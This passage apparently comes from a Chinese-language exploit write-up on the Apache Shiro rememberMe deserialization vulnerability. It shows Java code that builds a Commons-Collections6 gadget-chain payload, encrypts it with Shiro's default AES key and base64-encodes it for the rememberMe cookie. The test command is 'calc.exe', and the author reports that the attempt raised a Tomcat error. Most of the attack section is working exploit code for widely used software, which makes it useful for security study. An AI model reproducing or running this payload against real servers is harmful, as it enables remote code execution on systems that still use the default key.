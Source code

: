 ```java

        TiedMapEntry tme = new TiedMapEntry(outerMap, "keykey");

        Map expMap = new HashMap();
        expMap.put(tme, "valuevalue");

        outerMap.remove("keykey");

        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(transformerChain, transformers);

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(expMap);
        oos.close();

        return barr.toByteArray();
    }
}
```


对payload进行加密然后base64输出，这里的aes加密器使用shiro自带的`org.apache.shiro.crypto.AesCipherService`

```java
package com.payload;

import org.apache.shiro.crypto.AesCipherService;
import org.apache.shiro.util.ByteSource;

import java.util.Base64;

public class Generate1 {
    public static void main(String[] args) throws Exception {
        byte[] payload = new CommonsCollections6().getPayload("calc.exe");
        AesCipherService encoder = new AesCipherService();
        //使用shiro默认的key对payload进行加密
        byte[] key = Base64.getDecoder().decode("kPH+bIxk5D2deZiIxcaaaA==");
        ByteSource text = encoder.encrypt(payload, key);
        System.out.println(text.toString());

    }
}
```

然后设置为remberMe字段打进去

![image.png](https://assets.b3logfile.com/siyuan/1642857713240/assets/image-20220406004852-gh6iook.png)

随后tomcat报错，没有弹出计算器

> 怎么根据报错调试：[https://bbs.csdn.net/topics/390369450](https://bbs.csdn.net/topics/390369450)
>
